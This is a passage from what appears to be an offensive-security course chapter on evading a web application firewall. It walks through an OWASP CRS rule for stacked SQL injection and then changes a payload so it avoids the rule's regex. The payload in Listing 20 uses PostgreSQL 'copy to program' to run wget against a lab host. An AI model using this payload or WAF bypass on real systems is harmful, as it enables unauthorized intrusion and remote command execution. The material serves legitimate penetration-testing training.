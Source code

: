     msg:'SQL Authentication bypass (split query)',\
    logdata:'Matched Data: %{TX.0} found within %{MATCHED_VAR_NAME}: %{MATCHED_VAR}',\
    tag:'application-multi',\
    tag:'language-multi',\
    tag:'platform-multi',\
    tag:'attack-sqli',\
    tag:'OWASP_CRS',\
    tag:'capec/1000/152/248/66',\
    tag:'PCI/6.5.2',\
    tag:'paranoia-level/1',\
    ver:'OWASP_CRS/4.0.0-rc2',\
    severity:'CRITICAL',\
    setvar:'tx.sql_injection_score=+%{tx.critical_anomaly_score}',\
    setvar:'tx.inbound_anomaly_score_pl1=+%{tx.critical_anomaly_score}'"
Listing 19 - SecRule definition excerpt for SQL Authentication bypass (split query)

We won't cover every detail of the syntax right now, but let's review the important parts.

The rule starts with the SecRule directive. After this directive, the rule defines a series of variables using a pipe (|) character between them. These define which parts of a request the WAF engine should inspect when applying this rule. The rule then defines an operator.

In this case, it uses a string that starts with "@rx" to denote a regular expression. The WAF engine will use this regex when it inspects a request. Although the regular expression in this rule may seem complex, it's essentially checking for a closing quote followed by a semicolon. The comments on this rule aren't entirely accurate with regard to why attackers use semicolons. The example payload we've been working with uses a semicolon to create stacked queries. PostgreSQL, MySQL, and Microsoft SQL Server will execute multiple SQL statements if passed a single string of semicolon-separated queries.

In the next section, we'll update our attack payload to bypass this regular expression.

12.3.5. Bypassing the WAF
Since the regular expression checks for a single quote followed by a semicolon, we need to update our payload. We don't care about the SQL statement we're injecting into, so we can modify that part of our payload in any number of ways.

We could add a number comparison after the single quote and before the semicolon. This would separate the single quote and semicolon. The exact value we use before the semicolon doesn't matter as long as it's valid SQL syntax. The outcome of the first SQL statement does not impact the outcome of the stacked or secondary SQL statement, as long as it does not generate a syntax error.

We'll use the following JSON body:

{ "source_id":"' or 1=2; copy (select 'a') to program 'wget -q http://192.168.48.3:9000/it_will_bypass' -- - ", "task_run_id":"1"}
Listing 20 - Updated payload

We can use an online tool like regex101 to test if the rule's regular expression matches our payload. When testing the regular expression, we don't need to include "@rx" since that is part of the SecRule definition, not the regular expression.

Figure 21: Using regex101 to check our payloads
Figure 21: Using regex101 to check our payloads
Based on the output from regex101, our payload should not be caught by the regular expression. There might be additional WAF rules that we aren't aware of, but let's try sending our updated payload. We'll need to start an HTTP server if we don't already have one running.
